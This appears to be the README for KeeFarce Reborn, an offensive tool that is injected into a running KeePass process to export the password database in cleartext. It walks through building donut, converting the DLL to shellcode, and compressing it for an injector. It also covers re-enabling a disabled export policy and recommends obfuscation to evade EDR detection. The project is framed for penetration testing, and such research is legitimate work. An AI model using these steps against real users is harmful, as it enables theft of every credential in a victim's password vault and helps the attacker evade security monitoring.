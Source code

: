 # KeeFarce Reborn

A standalone DLL that exports databases in cleartext once injected in the KeePass process. 

Heavily inspired by the great [KeeFarce](https://github.com/denandz/KeeFarce), [KeeThief](https://github.com/GhostPack/KeeThief) and [KeePassHax](https://github.com/HoLLy-HaCKeR/KeePassHax) projects.

## Yet another KeePass extraction tool, why ?

A few years ago, [@denandz](https://github.com/denandz) released [KeeFarce](https://github.com/denandz/KeeFarce), the first offensive tool designed to extract KeePass databases in cleartex. It works by injecting a DLL into the running process, then walks the heap using [ClrMD](https://github.com/microsoft/clrmd) to find necessary object and invoke KeePass's builtin extraction method using reflection. Its only downside at the time was that multiple files needed to be dropped on the target (the extraction DLL + ClrMD DLL + the injector + a bootstrap DLL).

A year later, [@tifkin_](https://twitter.com/tifkin_) and [@harmj0y](https://twitter.com/harmj0y) released an in-depth review of offensive techniques targeting KeePass (while not available on harmj0y's blog anymore, the articles can be found on Wayback Machine: [part 1](https://web.archive.org/web/20220123003835/http://www.harmj0y.net/blog/redteaming/a-case-study-in-attacking-keepass/), [part 2](https://web.archive.org/web/20220122225230/http://www.harmj0y.net/blog/redteaming/keethief-a-case-study-in-attacking-keepass-part-2/)). It resulted in the release of [KeeThief](https://github.com/GhostPack/KeeThief), a tool able to decrypt KeePass' masterkey (including when alternative authentication method are used). It worked so well that KeePass developpers [added a parameter](https://sourceforge.net/p/keepass/discussion/329220/thread/62b0b650/) to mitigate this technique (it can be disabled by editing KeePass configuration file if the user have enough rights, which is pretty common).

These tools quickly became my go-to during penetration testing, but they soon became obsolete as their injection techniques (namely, the famous Win32 APIs gang of *VirtualAllocEx*, *WriteProcessMemory*, *CreateRemoteThread*, *WriteProcessMemory*, etc) now immediately triggers detection. [@snovvcrash](https://twitter.com/snovvcrash) addressed this issue by forking KeeThief (now in a private repo, but still accessible [here](https://github.com/d3lb3/KeeThief)) to improve the injection mechanism with D/Invoke, writing a [great article](https://hackmag.com/coding/keethief/) detailing the process he followed. As this demonstrated the faisability of maintaining KeeThief, I find it difficult to implement with other injection techniques, as KeeThief's code is tightly linked to its injector.

[@holly-cracker](https://github.com/holly-hacker) also released [KeePassHax](https://github.com/HoLLy-HaCKeR/KeePassHax), which comes as a single DLL and only uses reflection to decrypt KeePass' masterkey. Inspired by this work, I decided to do the same with KeeFarce and write my own KeePass extraction tool with the following features:

- Self-sufficient ⇒ no interaction needed with the injector's code to work.
- Only uses builtin .NET libraries (in particular, no ClrMD) ⇒ better compatibility + single-file to make the injection easier.
- Exports the database ⇒ same as KeeFarce, no need to retrieve the .kdbx nor using a custom KeePass built to input the recovered masterkey.

## Building

As the code solely relies on .NET Framework with no external dependency, it should compile easily on Visual Studio 2015 and higher.

## Usage

Once the *KeePassReborn.dll* is compiled, **you will need to inject it yourself** in the targeted KeePass process.

As I personally find it easier to stealthily inject shellcode than DLL in a remote process, the first thing I typically start with is generating a position-independent shellcode from our DLL. It appears that [@odzhan](https://twitter.com/modexpblog?lang=fr) and [@TheWover](https://twitter.com/thewover)'s [donut](https://github.com/TheWover/donut) project perfectly suits our needs !

We compile donut from a commit in the dev branch, as it fixes an [issue in application domain management](https://github.com/TheWover/donut/issues/44) that would prevent us from running in the default domain.

```
git clone https://github.com/TheWover/donut/
cd donut
git checkout 9d781d8da571eb1499122fc0e2d6e89e5a43603c
```

We can easily build from Visual Studio's *x64 Native Tools Command Prompt VS* with *nmake* utility:

```
nmake -f Makefile.msvc
```

Generating the shellcode is as simple as:

```powershell
.\donut.exe "C:\KeeFarceReborn\KeePassReborn\bin\Release\KeeFarceReborn.dll" -c KeeFarceReborn.Program -m Main -e 1

  [ Donut shellcode generator v0.9.3
  [ Copyright (c) 2019 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : "C:\KeeFarceReborn\KeePassReborn\bin\Release\KeeFarceReborn.dll"
  [ Entropy       : None
  [ File type     : .NET DLL
  [ Class         : KeeFarceReborn.Program
  [ Method        : Main
  [ Target CPU    : x86+amd64
  [ AMSI/WDLP     : continue
  [ Shellcode     : "loader.bin"
```

> Note that `-e` is necessary to disable entropy, otherwise the injected process won't be in the default application domain.

Let's compress it in PowerShell for easier integration in the injector's code:

```powershell
$bytes = [System.IO.File]::ReadAllBytes("C:\donut\loader.bin")
[System.IO.MemoryStream] $outStream = New-Object System.IO.MemoryStream
$deflateStream = New-Object System.IO.Compression.DeflateStream($outStream, [System.IO.Compression.CompressionLevel]::Optimal)
$deflateStream.Write($bytes, 0, $bytes.Length)
$deflateStream.Dispose()
$outBytes = $outStream.ToArray()
$outStream.Dispose()
$b64 = [System.Convert]::ToBase64String($outBytes)
Write-Output $b64 | clip
```

You now have a payload ready to be injected with your favourite technique. If you don't know what to do now, I suggest you check [ired.team Code & Process Injection page](https://www.ired.team/offensive-security/code-injection-process-injection) to get familiar with the concept, then have a look into [direct syscalls](https://jhalon.github.io/utilizing-syscalls-in-csharp-2/) and [D/Invoke](https://thewover.github.io/Dynamic-Invoke/) which will probably do the job in most cases. [@SEKTOR7](https://institute.sektor7.net/)'s malware development courses are full of great learnings if you can afford them. 

As an example, let's inject our payload using [snovvcrash](https://twitter.com/snovvcrash)'s VeraCrypt code (itself inspired by  SEKTOR7 courses) that makes use of D/Invoke. To demonstrate, I copied the project in the [SampleInjector](https://github.com/d3lb3/KeeFarceReborn/tree/main/SampleInjector) folder, we only need to paste our compressed shellcode then compile in x64.

> This would of course need to be edited in order to bypass modern EDRs, but would allow you to test that everything behaves as expected

By running *.\SampleInjector.exe* alongside an open KeePass database, you will see debug messages being printed in MessageBox (which should obviously be removed when used in a real penetration testing scenario) then find the exported database in the current user's *%APPDATA%* (choosed by default, as KeePass will be sure to have write access). The exported XML file can later be imported in any KeePass database without asking for a password.

>  If the export functionnality is disabled by policy, it can still be enabled by editing the KeePass.config.xml :
>
> ```xml
> <Policy>
>     <Export>false</Export>
> </Policy>
> ```

## Possible Caveats

### Detection

While the main issue concerning KeePass extraction tools detection is injectors, in-memory scan may also trigger alerts when analyzing the shellcode. You may want to obfuscate the shellcode and/or encrypt it when using with your injector.

Also, the code uses `Assembly.Load` to perform reflection once injected, and this behavior may be considered as malicious. I noticed that KeePass itself was sometimes using this method so I guess most protection won't be alerted. If you have insights on this, feel free to let me know.

### Compatibility

- The code only relies on .NET Framework with no external dependency, so should be fairly compatible with most targets.
- By default, KeeFarce Reborn Visual Studio solution targets .NET 4.6, which is installed by default on Windows 10 but can easily be changed.
- If .NET Framework is not installed on the target system, you can still install it manually from command line using `DISM.exe`.
- I only tested x64 payloads, but this should work as well for 32 bits architectures.

## Roadmap

- [ ] Check in details what parts of the DLL can trigger EDRs
- [ ] Provide an obfuscated version of the DLL
- [ ] Add option to log events into a file to debug while attacking a target, without using noisy message boxes

## Contribute

Pull requests are welcome. Feel free to open an issue or DM me on Twitter to suggest improvement.

## Credits

Bits of code where taken from the [KeeFarce](https://github.com/denandz/KeeFarce), [KeeThief](https://github.com/GhostPack/KeeThief) and [KeePassHax](https://github.com/HoLLy-HaCKeR/KeePassHax) projects. 

The sample injection mechanism was directely taken from [snovvcrash](https://twitter.com/snovvcrash)'s projects.
